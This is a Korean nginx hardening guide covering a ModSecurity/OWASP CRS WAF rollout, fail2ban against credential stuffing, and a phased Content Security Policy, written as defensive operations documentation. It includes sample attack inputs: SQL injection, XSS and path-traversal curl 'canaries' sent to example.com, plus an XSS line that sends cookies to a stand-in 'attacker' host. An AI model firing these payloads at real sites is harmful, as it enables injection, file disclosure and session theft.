

# [OPS-GUIDE-003] 애플리케이션 계층 방어 — WAF · fail2ban · CSP

| 항목 | 값 |
| --- | --- |
| 문서 ID | OPS-GUIDE-003 |
| 시리즈명 | Nginx Production Hardening |
| 시리즈 인덱스 | [OPS-GUIDE-001 Master Index](./2026-05-15-OPS-GUIDE-001-master-index.md) |
| 생성일 | 2026-05-15 |
| 최근 검토일 | 2026-05-15 |
| 소유자 | AppSec / SRE 공동 |
| 상태 | Living document |
| 다루는 영역 | WAF (ModSecurity + OWASP CRS), fail2ban, Content Security Policy 단계적 강화 |

## 시리즈 내 위치

| 번호 | 문서 | 관계 |
| --- | --- | --- |
| OPS-GUIDE-001 | Master Index | 상위 인덱스 |
| OPS-GUIDE-002 | [TLS / 인증서 운영](./2026-05-15-OPS-GUIDE-002-tls-certificate-lifecycle.md) | 인접 |
| **OPS-GUIDE-003** | **애플리케이션 계층 방어** *(이 문서)* | |
| OPS-GUIDE-004 | [컨테이너 / 이미지 보안](./2026-05-15-OPS-GUIDE-004-container-and-image-security.md) | 인접 |
| OPS-GUIDE-005 | [운영 가시성](./2026-05-15-OPS-GUIDE-005-observability-and-operations.md) | **의존** — fail2ban 의 alert 와 WAF 의 audit log 색인이 §2 Observability 스택 위에 구축 |
| OPS-GUIDE-006 | [엣지 / 네트워크](./2026-05-15-OPS-GUIDE-006-edge-and-network.md) | **의존** — fail2ban (§2) 도입 전에 OPS-GUIDE-006 §2 real_ip 가 반드시 활성화되어야 함 |

> ⚠️ **선행 의존성.** §2 fail2ban 통합은 [OPS-GUIDE-006 §2 real_ip 활성화](./2026-05-15-OPS-GUIDE-006-edge-and-network.md#2-real_ip-활성화) 가 선행되어야 안전합니다. 순서를 어기면 LB 뒤 운영에서 전체 정상 사용자가 차단되는 사고가 발생합니다.

---

## 1. 웹 애플리케이션 방화벽 (WAF)

**Severity: High | Effort: M ~ L**

### 1.1 근거

ngxblocker 는 클라이언트의 **신원** (UA / referer / IP) 으로 필터링합니다. 요청 **내용** 은 검사하지 않습니다. 일반 Chrome UA 로 `username=admin'%20OR%201=1--` 를 제출하는 공격자는 ngxblocker 의 시야 밖입니다. 애플리케이션이 이를 방어해야 하지만, 실무에서는 프레임워크가 취약한 기본값 (예: 레거시 SQL 의 raw string concatenation, escape 안 된 템플릿 변수) 과 의존성 (log4shell, spring4shell 등) 을 가지고 출시됩니다. WAF 는 모든 의존성을 고치지 않아도 동작하는 defense-in-depth 를 제공합니다.

세 가지 가능한 구현 경로:

| 경로 | 비용 | 운영 부담 | False positive 율 | Time-to-value |
| --- | --- | --- | --- | --- |
| ModSecurity + OWASP CRS (자체 호스팅 nginx 모듈) | $0 라이선스 + 엔지니어 시간 | 높음 (지속 튜닝) | 초기 높음, 2~3개월 후 낮음 | 1~3개월 |
| Managed WAF (CloudFlare / AWS WAF / Akamai) | 트래픽 기반 ($50~$5000/월) | 낮음 (벤더가 룰 유지) | 낮음 (벤더 튜닝) | 며칠 |
| NAXSI (whitelist learning mode) | $0 + 엔지니어 시간 | 중간 (앱별 학습) | 학습 후 매우 낮음 | 앱당 2~4주 |

### 1.2 현재 상태

본 fleet 에는 WAF 가 설치되어 있지 않습니다. ngxblocker 의 UA-기반 필터만 동작 중. SQLi / XSS / LFI / SSRF / command injection 등은 애플리케이션 책임 — 본 가이드의 1차 목표는 이 영역에 defense-in-depth 를 추가하는 것입니다.

### 1.3 구현 — ModSecurity + OWASP CRS 경로

대부분의 조직이 처음 선택하는 경로입니다. 계약 변경이 필요 없기 때문. nginx connector 는 오픈소스 (`nginx-modsecurity-connector`) 이고 OWASP CRS 는 사실상 표준 룰셋.

#### 1.3.1 이미지에 ModSecurity 빌드

`docker/nginx/Dockerfile` 에 multi-stage 빌드 추가:

```dockerfile
FROM nginx:1.27-bookworm AS modsec-builder
ARG MODSEC_VER=3.0.13
ARG CRS_VER=4.7.0
RUN apt-get update && apt-get install -y --no-install-recommends \
    git g++ flex bison curl apache2-dev doxygen libyajl-dev \
    libgeoip-dev libtool dh-autoreconf libcurl4-gnutls-dev \
    libxml2 libpcre3-dev libxml2-dev libssl-dev pkgconf zlib1g-dev
# ... libmodsecurity + dynamic module 빌드, artifact 를 /modules/ 로 복사
# (간결성을 위해 전체 Dockerfile 생략 — 약 80줄)

FROM nginx:1.27-bookworm
COPY --from=modsec-builder /modules/ngx_http_modsecurity_module.so /etc/nginx/modules/
COPY --from=modsec-builder /etc/modsecurity/ /etc/modsecurity/
COPY --from=modsec-builder /opt/owasp-crs/ /opt/owasp-crs/
# 기존 RUN 단계 그대로 유지
```

#### 1.3.2 모듈 로드

`nginx.conf` 최상단 (events 위) 에 추가:

```nginx
load_module modules/ngx_http_modsecurity_module.so;
```

#### 1.3.3 WAF 를 server 블록 단위로 활성화 (저트래픽 도메인부터)

```nginx
server {
    # ...
    modsecurity on;
    modsecurity_rules_file /etc/modsecurity/main.conf;
}
```

`main.conf` 는 초기에 OWASP CRS 를 **DetectionOnly** 모드로 로드 (`SecRuleEngine DetectionOnly`).

#### 1.3.4 Phase 1 — DetectionOnly (최소 4주)

`SecRuleEngine DetectionOnly` 로 최소 4주 운영. `/var/log/modsec_audit.log` 에서 false positive 점검. 흔한 위반:

- **파일 업로드 form** — multipart body 가 `REQUEST-913` 룰에 매칭.
- **Admin 엔드포인트** — 정상적으로 SQL-like 패턴을 사용하는 경우.
- **JSON API** — 사용자 콘텐츠에 angle bracket 포함.

#### 1.3.5 Phase 2 — 룰별 제외 작성

각 false positive 마다 URI 단위 `SecRuleRemoveById` 제외:

```
SecRule REQUEST_URI "@beginsWith /api/v1/search" \
    "id:1001,phase:1,pass,nolog,ctl:ruleRemoveById=942100"
```

#### 1.3.6 Phase 3 — Enforce 전환

`SecRuleEngine On` 으로 전환. `modsec_audit.log` 와 nginx `error_log` 지속 모니터링. 60초 이내 DetectionOnly 로 reload 복귀할 준비.

#### 1.3.7 Phase 4 — Paranoia level 튜닝

OWASP CRS 는 paranoia level 1~4 를 제공. 기본은 1 (운영 안전). 2 로 올리면 더 많은 공격을 잡지만 false positive 도 증가 — admin / auth 같은 고위험 엔드포인트에만 정당화됨.

### 1.4 검증 (Testing)

표준 WAF 효과 테스트:

```bash
# SQL injection canary
curl -s -o /dev/null -w '%{http_code}\n' \
  "https://example.com/?q=1%27%20OR%20%271%27=%271"
# 예상: 403 (CRS 룰 942100 에 의해 차단)

# XSS canary
curl -s -o /dev/null -w '%{http_code}\n' \
  "https://example.com/?q=<script>alert(1)</script>"
# 예상: 403 (CRS 룰 941100 에 의해 차단)

# Path traversal canary
curl -s -o /dev/null -w '%{http_code}\n' \
  "https://example.com/?file=../../etc/passwd"
# 예상: 403 (CRS 룰 930120 에 의해 차단)
```

지속 검증은 `nikto` 또는 `ZAP` baseline scan 을 WAF 활성 스테이징 환경에 대해 CI 통합.

### 1.5 모니터링

- **`modsecurity_transactions_total{phase, rule_id, action}`** — 커뮤니티 `nginx-modsec-exporter` 가 노출하는 Prometheus 메트릭.
- **Audit log 색인** — `/var/log/modsec_audit.log` 를 Elasticsearch/Loki 로 ship. 각 entry 는 매칭된 룰, 요청 body fragment, 클라이언트 IP 포함. WAF 의 "evidence locker" — 사후 review 와 튜닝의 핵심.
- **성능 영향 대시보드** — `nginx_http_request_duration_seconds` p99 를 활성화 전/후 비교, 도메인 단위 분해. CRS 는 일반적으로 요청당 1~3ms 추가. >10ms 면 룰 병리 시사 → 프로파일링 필요.

### 1.6 흔히 빠지는 함정

- **DetectionOnly drift.** 팀이 "튜닝 끝날 때까지" WAF 를 DetectionOnly 로 두고 영원히 머무릅니다. 6개월 뒤 audit log 가 너무 커서 아무도 보지 않게 됩니다. 사전에 hard cutover 날짜를 정하세요.
- **Audit log 메모리 비대화.** 시끄러운 WAF 는 일일 10 GB audit log 를 생성. aggressive rotate (일별이 아닌 시간별) + 원격 저장소로 ship.
- **CRS 업그레이드가 제외 룰을 깨뜨림.** OWASP CRS 룰 ID 는 합리적으로 안정적이지만 minor version 이 renumber 할 수 있음. Dockerfile 에 특정 CRS version 을 pin 하고 제어된 테스트와 함께만 upgrade.

### 1.7 롤백

- DetectionOnly → Enforce 전환 직후 사고 발생 시: `main.conf` 에서 `SecRuleEngine On` → `SecRuleEngine DetectionOnly` 변경 후 `nginx -s reload` (1분 이내 복귀).
- 모듈 전체 비활성화: server 블록의 `modsecurity on;` 을 `modsecurity off;` 로 변경 후 reload.
- 이미지 단계 롤백: ModSecurity 가 포함되지 않은 이전 이미지 태그로 `docker compose up -d --force-recreate webserver`.

---

## 2. fail2ban 통합

**Severity: High | Effort: M**

> ⚠️ **선행 조건.** 본 항목은 [OPS-GUIDE-006 §2 real_ip 활성화](./2026-05-15-OPS-GUIDE-006-edge-and-network.md#2-real_ip-활성화) 가 완료된 후에만 안전하게 도입할 수 있습니다.

### 2.1 근거

ngxblocker 는 정상 사용자 활동처럼 보이는 엔드포인트를 보호하지 않습니다. 회전 residential IP 와 사실적인 Chrome UA 를 사용하는 botnet 이 `/wp-login.php` 를 분당 10회/IP × 1000개 IP 로 시도하는 credential-stuffing 공격은 현재 스택에서 차단되지 않습니다. fail2ban 은 로그 패턴을 시간 단위로 관찰하여 동적 방화벽 룰을 생산합니다.

### 2.2 현재 상태

설치되어 있지 않습니다.

### 2.3 구현

fail2ban 은 세 가지 아키텍처에서 동작 가능:

1. **호스트** 에서 bind-mount 된 `/log/nginx/` 디렉터리 감시.
2. **Sidecar 컨테이너** 가 log volume 공유.
3. **Nginx 컨테이너 내부** (안티-패턴 — single-process-per-container 위반).

아키텍처 1 이 표준. docker 호스트에 fail2ban 설치:

```bash
apt-get install -y fail2ban
```

`/etc/fail2ban/filter.d/nginx-auth.conf` 에 커스텀 filter 생성:

```ini
[Definition]
failregex = ^<HOST> - .* "(GET|POST) /(wp-login\.php|admin/login|api/v1/auth/login).*" (401|403)
ignoreregex =
```

`/etc/fail2ban/jail.d/nginx.conf` 에 jail 생성:

```ini
[nginx-auth]
enabled  = true
filter   = nginx-auth
logpath  = /var/log/devspoon/nginx/*_access.log
bantime  = 3600
findtime = 600
maxretry = 5
action   = iptables-multiport[name=nginx-auth, port="http,https"]
```

`iptables` action 은 공격자 IP 를 INPUT chain 최상단에 1시간 DROP 으로 삽입.

### 2.4 치명적 주의 — real_ip 의존성

CDN 또는 LB 뒤에서 운영하는 경우 로그의 `<HOST>` 는 LB IP 입니다. fail2ban 이 LB IP 를 ban 하면 **모든 정상 사용자가 차단됩니다**. fail2ban-in-front-of-LB 환경에서 가장 흔히 발생하는 운영 재앙 중 하나입니다. 따라서:

> **CDN/LB 뒤 환경에서는 [OPS-GUIDE-006 §2 real_ip](./2026-05-15-OPS-GUIDE-006-edge-and-network.md#2-real_ip-활성화) 가 활성화되고 access 로그가 실제 클라이언트 IP 를 포함함이 검증되기 전까지 절대 fail2ban 을 활성화하지 마십시오.**

real_ip 활성화 후 fail2ban filter 는 `$remote_addr` 로그 필드의 실제 IP 에 대해 정확히 동작합니다.

### 2.5 검증

스테이징 배포에 대해 제어된 공격 트래픽 생성:

```bash
# allowlist 에 있는 외부 테스트 소스 IP 에서
for i in {1..10}; do
    curl -s -o /dev/null -X POST https://staging.example.com/api/v1/auth/login \
        -d "username=admin&password=wrong$i"
done
# 그 다음 ban 확인
ssh staging-host "fail2ban-client status nginx-auth"
# 예상: Banned IP list: <your test IP>
```

테스트 후 unban:

```bash
fail2ban-client set nginx-auth unbanip <your test IP>
```

### 2.6 모니터링

- **`fail2ban_jail_banned_total`** — 커뮤니티 `fail2ban_exporter` 메트릭. 갑작스러운 spike alert (공격 진행 중일 가능성).
- **`fail2ban_jail_currently_banned`** — 지속적으로 높은 값은 영구 공격 소스를 시사.
- **nginx access log 와 cross-check** — 각 banned IP 에 대해 401/403 응답 흔적이 있는지 확인; 불일치는 filter 오설정 시사.

### 2.7 흔히 빠지는 함정

- **자체 모니터링을 ban 함.** Blackbox exporter 와 uptime check 가 auth 엔드포인트를 probe 하면 filter 가 발사. 그들의 source IP 를 jail.conf 의 `ignoreip` 에 추가.
- **fail2ban 재시작 후 stale 룰 잔존.** fail2ban 은 시작 시 iptables 룰을 삽입하지만 stop 시 항상 제거하지는 않음. `iptables -L INPUT -n | head -40` 으로 주기 확인.
- **IPv6 미보호.** 기본 `iptables-multiport` action 은 IPv4 만 처리. dual-stack 배포에서는 `iptables-ipset-proto6` 추가 또는 `nftables` action 사용.

### 2.8 롤백

- jail 비활성화: `/etc/fail2ban/jail.d/nginx.conf` 에서 `enabled = true` → `enabled = false`, `systemctl reload fail2ban`.
- 모든 ban 해제: `fail2ban-client unban --all`.
- 패키지 제거: `systemctl stop fail2ban && systemctl disable fail2ban` (룰은 자동 해제됨).

---

## 3. Content Security Policy 단계적 강화

**Severity: Medium | Effort: M (수개월)**

### 3.1 근거

현재 CSP `frame-ancestors 'self'` 는 clickjacking 만 방어합니다. XSS 공격의 대다수는 script injection 으로 옵니다 — 공격자가 애플리케이션이 `<script>fetch('//attacker/?c='+document.cookie)</script>` 를 렌더하도록 유도. 강력한 CSP `script-src` directive 는 애플리케이션이 무엇을 하든 이를 차단합니다. CSP 는 `script-src`, `style-src`, `connect-src`, `frame-src`, `default-src` 를 커버할 때 가장 효과적인 defense-in-depth 컨트롤 중 하나입니다.

### 3.2 현재 상태

`sample_nginx_https.conf` 3개에 다음만 정의:

```nginx
add_header Content-Security-Policy "frame-ancestors 'self';" always;
```

선택적 강화 헤더 (X-Frame-Options, Permissions-Policy, Cross-Origin-Opener-Policy, Cross-Origin-Resource-Policy, CSP 강화) 는 sample 의 주석 블록에 가이드로 추가되어 있으며 활성화는 본 가이드의 단계적 도입 절차를 따릅니다.

### 3.3 구현 — 단계적 롤아웃

CSP 롤아웃은 위험을 최소화하는 잘 문서화된 산업 표준 패턴을 따릅니다:



#### 3.3.1 Phase 1 — Report-Only

각 `sample_nginx_https.conf` 에 추가:

```nginx
add_header Content-Security-Policy-Report-Only "
  default-src 'self';
  script-src 'self' 'unsafe-inline' 'unsafe-eval';
  style-src 'self' 'unsafe-inline';
  img-src 'self' data: https:;
  font-src 'self' data:;
  connect-src 'self';
  frame-ancestors 'self';
  report-uri /csp-report;
  report-to default;
" always;

add_header Report-To '{
  "group": "default",
  "max_age": 86400,
  "endpoints": [{"url": "/csp-report"}]
}' always;
```

`/csp-report` 엔드포인트는 백엔드에서 구현되어야 하며 `Content-Type: application/csp-report` 의 POST 를 받아 JSON body 를 영속화하거나 forward 합니다. 흔한 destination: Sentry 의 report-uri 통합, `report-uri.com`, ELK 로 ship 하는 사내 collector.

#### 3.3.2 Phase 2 — 분석 (최소 30일)

수집된 리포트를 매일 점검. 다음 목록 작성:

- **정당한 외부 script CDN** (Google Analytics, Stripe, Mixpanel, 광고 네트워크, fonts).
- **인라인 이벤트 핸들러** (`onclick="..."`) — 레거시 템플릿에 있음; strict CSP 와 함께 동작하지 않으며 event listener 로 리팩토링 필수.
- **`eval()` / `new Function()` 호출** — 보통 옛 템플릿 엔진; 리팩토링 전까지 `unsafe-eval` 필요.

#### 3.3.3 Phase 3 — Enforce

`Content-Security-Policy-Report-Only` 헤더를 `Content-Security-Policy` 로 교체. 새로 도입되는 위반을 계속 받기 위해 `report-uri` 는 유지.

#### 3.3.4 Phase 4 — 강화

`unsafe-inline` / `unsafe-eval` 제거:

- 인라인 script 를 외부 파일로 리팩토링.
- nginx 변수 치환으로 요청별 nonce 주입:
  ```nginx
  set_by_lua_block $csp_nonce { return ngx.encode_base64(ngx.var.request_id) }
  add_header Content-Security-Policy "default-src 'self'; script-src 'self' 'nonce-$csp_nonce'; ..." always;
  # 그 다음 애플리케이션 템플릿이 <script> 태그에 nonce 주입.
  ```
- 또는 인라인 script 내용의 SHA-256 hash 사용.

### 3.4 검증

Mozilla Observatory (https://observatory.mozilla.org) 와 `securityheaders.com` 을 사용해 배포 등급화. 두 도구 모두 CSP 를 독립적으로 테스트하고 약점을 리포트.

자동화된 회귀 테스트는 `csp-evaluator` 라이브러리를 CI 에 통합:

```bash
csp-evaluator "default-src 'self'; script-src 'self'..."
```

이 도구는 흔한 실수 (`'unsafe-inline'` 사용, `'strict-dynamic'` 누락 등) 에 대한 경고를 반환.

### 3.5 모니터링

- **시간 단위 CSP 리포트 볼륨** — 갑작스러운 spike 는 새 공격 시도 또는 directive 를 깨뜨린 배포를 시사.
- **상위 10 위반 directive** — 어느 directive 가 유지 비용이 가장 비싼지 알려줌.
- **차단된 브라우저** — report-uri payload 의 User-Agent 분포를 통해 옛 브라우저가 enforce 할 수 없는 CSP 를 받는지 드러남.

### 3.6 흔히 빠지는 함정

- **Report-Only 에 영원히 머무름.** 가장 흔한 실패 모드는 "리포트가 깨끗할 때까지" Report-Only 에 두는 것. 깨끗해지지 않습니다. Hard cutover 날짜 설정.
- **report-uri black hole.** 백엔드 엔드포인트가 리포트를 조용히 drop (예: rate limit) 하면 브라우저가 데이터를 버립니다. 외부에서 `/csp-report` 에 curl POST 후 저장소 확인으로 검증.
- **CSP 가 브라우저 확장 / 패스워드 매니저를 깨뜨림.** 일부 정당한 확장이 CSP 가 차단하는 script 를 주입. 예상된 동작이며 오설정이 아님. 문서화.

### 3.7 롤백

- Enforce → Report-Only: 헤더 이름을 다시 교체 후 `nginx -s reload`.
- 전체 CSP 비활성: `add_header Content-Security-Policy ...` 라인을 주석 처리 후 reload.

---

## 4. References

- **OWASP CRS** — https://coreruleset.org/
- **ModSecurity nginx connector** — https://github.com/SpiderLabs/ModSecurity-nginx
- **fail2ban** — https://www.fail2ban.org/
- **Mozilla Observatory** — https://observatory.mozilla.org/
- **csp-evaluator** — https://github.com/google/csp-evaluator
- **report-uri.com** — https://report-uri.com/
- **Content Security Policy Level 3 (W3C)** — https://www.w3.org/TR/CSP3/

---

## 5. Change Log

| 날짜 | 작성자 | 변경 |
| --- | --- | --- |
| 2026-05-15 | 초기 작성 | OPS-GUIDE-001 마스터에서 분기. WAF (ModSecurity + OWASP CRS) 4-phase 도입, fail2ban + real_ip 의존성, CSP 5-phase 단계적 강화 포함. |
